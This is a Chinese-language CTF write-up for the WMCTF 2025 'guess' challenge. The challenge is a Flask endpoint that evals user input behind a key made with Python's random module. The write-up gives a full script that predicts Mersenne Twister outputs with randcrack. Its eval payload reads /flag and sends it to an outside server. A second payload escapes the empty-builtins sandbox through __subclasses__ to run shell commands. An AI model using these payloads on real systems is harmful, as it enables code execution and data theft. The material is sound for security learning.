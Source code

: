 # WMCTF 2025 WP
## guess WP
### 首先，这个题目注册登录谁都会，所以我们直接看关键代码：
```python
import random

rd = random.Random() // 关键点1


@app.post('/api')
def protected_api():

    data = request.get_json()

    key1 = data.get('key')
    
    if not key1:
        return jsonify({'error': 'key are required'}), 400

    key2 = generate_random_string()
    
    if not str(key1) == str(key2):
        return jsonify({
            'message': 'Not Allowed:' + str(key2) ,
        }), 403
    

    payload = data.get('payload')

    if payload:
        eval(payload, {'__builtin__':{}})  // 关键点2
    
    return jsonify({
        'message': 'Access granted',
    })

```

### 预测随机数
如代码所示，这里使用的是random库的random函数，这个函数的算法实际上是梅森旋转算法，根据前随机生成的624个数字可以预测下一个数字，所以这里我们第一步需要破解随机数
py脚本如下：
```python
import requests, re
from randcrack import RandCrack

url = "http://49.232.42.74:32328/api"
session = "eyJ1c2VyX2lkIjoiMzM5NTYxNzk0MyIsInVzZXJuYW1lIjoiYWRtaW4ifQ.aM62Kg.XvLwMeAsN6Bx2n66X2JejxJZR1E"

with open("number.txt", 'w') as f:
    f.write('')

for _ in range(624):
    response = requests.post(url, headers={'Cookie': session}, 
                             json={"key":123, "payload": 123}, timeout=10)
    msg = response.json().get('message', '')
    match = re.search(r':(\d+)', msg)
    number = match.group(1)
    print(msg, number)
    with open("number.txt", 'a+') as f:
        f.write(number)
        f.write("\n")

rc = RandCrack()

numbers = []
with open("number.txt", 'r') as f:
    numbers = [int(line.strip()) for line in f.readlines()]

for number in numbers:
    rc.submit(number)

key = rc.predict_getrandbits(32)
print(key)

response = requests.post(url, 
                         headers={'Cookie': session}, 
                         json=
                         {
                            "key":key,
                            "payload": """__import__('urllib').request.urlopen("http://47.95.170.101:9999/upload?msg=1"+open('/flag','r').read())"""
                         },
                         timeout=10)
for i in range(5):
    key = rc.predict_getrandbits(32)
    print(key)
print(response.content)
```
### 构造payload命令
这个脚本首先的作用是发送624次请求，然后获取返回的key2，也就是生成的随机数，然后预测下一次生成的随机数，匹配成功后就可以注入代码，上面的网页代码中虽然做了过滤，但是实际上是一个无用的过滤，因为py3已经不适用__builtin__

这里我们构造的命令注入代码是这样的：

```python
__import__('urllib').request.urlopen("http://外部服务器url/upload?msg=1"+open('/flag','r').read())
```
先读取flag的内容，然后使用python的urllib库函数发送request到服务器上接收，接着到外部服务器上直接读取flag。这是在出网的前提下才能适用的做法，下面介绍一种不出网的做法：

这个题目由于权限问题，在使用数据外带的方法之前，尝试过各种方法，比如将flag直接写入同级目录下、404污染、将flag写入login.html文件下等方法，均失败。

首先，构造出可执行系统命令的lamda函数，然后创建static静态文件夹，再将flag写入static文件夹下，之后直接访问flag文件就可以了。
payload如下：
```python
(lambda o: 
    [
        o.mkdir('static'), 
        open('static/flag','w').write(o.popen('tac /flag').read())
    ]
)(next(
    c.__init__.__globals__['os'] 
    for c in ().__class__.__base__.__subclasses__() 
    if hasattr(c.__init__,'__globals__') 
    and 'os' in c.__init__.__globals__
))
```




